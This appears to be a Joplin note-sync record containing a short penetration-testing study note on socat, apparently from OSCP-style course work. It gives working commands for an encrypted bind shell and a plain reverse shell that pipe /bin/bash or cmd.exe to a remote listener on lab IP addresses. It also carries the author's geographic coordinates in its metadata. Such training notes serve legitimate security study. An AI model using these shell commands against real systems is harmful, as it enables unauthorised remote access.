 id: d0969668309844d1b6500d3a228c6f16
parent_id: 
item_type: 1
item_id: 591cb08e223f49adaea2636bd32bb0ae
item_updated_time: 1646016692367
title_diff: "[{\"diffs\":[[1,\"0d70f2c0c0de487c985390d1315593a8\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Socat\\\r\\\n\\\r\\\n<ins>SOCAT</ins>\\\r\\\n\\\r\\\n1\\\\. Encrypted Bind Shell - Kali opens as listener\\\r\\\n\\\r\\\nOn Kali 1st:\\\r\\\n\\\r\\\n> openssl req -newkey rsa:2048 -nodes -keyout bind\\\\_shell.key -x509 -days 362 -out bind\\\\_shell.crt\\\r\\\n> \\\r\\\n> cat bind\\\\_shell.key bind\\\\_shell.crt > bind_shell.pem\\\r\\\n> \\\r\\\n> sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash\\\r\\\n\\\r\\\nThen on the other machine:\\\r\\\n\\\r\\\n> socat - OPENSSL:10.11.0.4:443,verify=0\\\r\\\n\\\r\\\nInstall Openssl, or use powershell (Not tested)\\\r\\\n\\\r\\\n> New-SelfSignedCertificate -Type Custom -Subject \\\"Offsec\\\" -KeyExportPolicy Exportable -KeyUsage DigitalSignature -KeyAlgorithm RSA -KeyLength 2048 -CertStoreLocation \\\"Cert:\\\\\\\\CurrentUser\\\\\\\\My\\\"\\\r\\\n\\\r\\\nFor reverse shell, fork STDOUT for Kali, and the machine has to change to socat OPENSSL:IP:443,verify=0 exec:cmd.exe,pipes\\\r\\\n\\\r\\\n2\\\\. Reverse Shell -\\\r\\\n\\\r\\\nLISTENER -\\\r\\\n\\\r\\\n> socat -d -d TCP4-LISTEN:443 STDOUT\\\r\\\n\\\r\\\nClient -\\\r\\\n\\\r\\\n> socat TCP4:10.11.0.22:443 EXEC:/bin/bash\\\r\\\n\\\r\\\nid: 0d70f2c0c0de487c985390d1315593a8\\\r\\\nparent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\r\\\ncreated_time: 2022-01-14T06:53:47.593Z\\\r\\\nupdated_time: 2022-01-20T06:54:55.571Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 1.36730000\\\r\\\nlongitude: 103.80140000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-14T06:53:47.593Z\\\r\\\nuser_updated_time: 2022-01-20T06:54:55.571Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1573}]"
metadata_diff: {"new":{"id":"591cb08e223f49adaea2636bd32bb0ae","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016692357,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.558Z
created_time: 2022-02-28T02:54:21.558Z
type_: 13